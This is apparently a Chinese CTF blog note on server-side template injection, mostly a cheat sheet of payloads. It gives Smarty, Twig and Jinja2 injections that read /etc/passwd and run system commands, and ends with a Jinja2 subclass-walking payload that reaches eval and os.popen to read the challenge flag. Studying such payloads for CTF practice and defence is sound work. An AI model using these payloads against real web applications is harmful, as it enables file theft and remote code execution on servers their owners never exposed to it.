 ```yaml
---
title: "CTF SSTI(服务器模板注入) (Web_python_template_injection)"
published: 2021-10-07
description: ""
category: 胡乱折腾
tags: 
  - "ctf"
---
```


### 基本判断

<figure>

![](assets/1633609973-1270588-20200116203917086-1704538409.png)

<figcaption>

转自：https://www.cnblogs.com/20175211lyz/p/11425368.html

</figcaption>

</figure>

### flask/jinja

```
__dict__ 保存类实例或对象实例的属性变量键值对字典
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__bases__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

### Smarty

以下内容出自[Smarty SSTI](https://www.jianshu.com/p/eb8d0137a7d3)

**1、{php}{/php}**

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用

**2、{literal}**

{literal}可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

那么对于php5的环境我们就可以使用

`<script language="php">phpinfo();</script>`

**3、{if}**

Smarty的{if}条件判断和PHP的if 非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用，如_||_,or,&&,and,is\_array(), 等等

`{if phpinfo()}{/if}`

**4、getStreamVariable**

新版本失效  
`{self::getStreamVariable("file:///etc/passwd")}`

### **twig**

文件读取

```
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}

```

rce

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['cat /etc/passwd']|filter('system')}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}

```

### Web\_python\_template\_injection

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}    
    {% if 'eval' in b.keys() %}  
      {{ b['eval']('__import__("os").popen("cat fl4g").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

通过执行shell命令就行了
